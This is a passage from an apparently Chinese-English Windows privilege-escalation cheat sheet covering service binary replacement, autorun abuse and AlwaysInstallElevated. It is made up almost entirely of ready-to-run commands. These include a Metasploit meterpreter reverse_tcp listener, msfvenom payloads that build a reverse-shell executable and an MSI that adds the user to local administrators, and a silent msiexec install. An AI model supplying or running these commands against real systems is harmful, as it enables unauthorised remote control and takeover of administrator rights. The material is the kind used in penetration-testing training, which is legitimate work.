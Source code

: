 1.  `copy /y c:\Temp\x.exe "c:\Program Files\File Permissions Service\filepermservice.exe"`
2.  `sc start filepermsvc`

### **Abusing Services via Autorun**

域：No

Local Admin: Yes

操作系统: Windows

类型: Abuse Privilege

方法:

1.

In Metasploit (msf > prompt) 类型：`use multi/handler`

In Metasploit (msf > prompt) 类型：`set payload windows/meterpreter/reverse_tcp`

In Metasploit (msf > prompt) 类型：`set lhost [Kali VM IP Address]`

In Metasploit (msf > prompt) 类型：`run`

打开另一个命令提示符并键入:

`msfvenom -p windows/[meterpreter](https://zhida.zhihu.com/search?content_id=236623600&content_type=Article&match_order=2&q=meterpreter&zd_token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJ6aGlkYV9zZXJ2ZXIiLCJleHAiOjE3NjAwNzgzMDIsInEiOiJtZXRlcnByZXRlciIsInpoaWRhX3NvdXJjZSI6ImVudGl0eSIsImNvbnRlbnRfaWQiOjIzNjYyMzYwMCwiY29udGVudF90eXBlIjoiQXJ0aWNsZSIsIm1hdGNoX29yZGVyIjoyLCJ6ZF90b2tlbiI6bnVsbH0.gw1ekU1G5MoA5OUvmSYmaKV8ni47Pd29Y-cDGj2xWfk&zhida_source=entity)/reverse_tcp lhost=[Kali VM IP Address] -f exe -o program.exe`

2.

`program.exe 放在 'C:\Program Files\Autorun Program'.`

### **Abusing Services via AlwaysInstallElevated**

域：No

Local Admin: Yes

操作系统: Windows

类型: Abuse Privilege

方法:

1.

`msfvenom -p windows/exec CMD='net localgroup administrators user /add' -f msi-nouac -o setup.msi`

2.

`msiexec /quiet /qn /i C:\Temp\setup.msi`

Or

`SharpUp.exe AlwaysInstallElevated`
